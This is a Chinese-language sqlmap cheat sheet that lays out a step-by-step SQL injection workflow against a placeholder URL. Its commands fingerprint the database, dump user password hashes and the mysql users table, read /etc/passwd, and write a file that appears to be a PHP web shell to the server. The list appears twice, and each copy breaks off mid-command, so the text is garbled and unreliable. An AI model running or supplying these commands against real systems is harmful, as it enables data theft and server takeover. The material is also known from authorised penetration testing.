简单的注入流程：

```
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```

确定要注入的URL，有时需要获取访问该网站所需的cookie。

### get数据注入
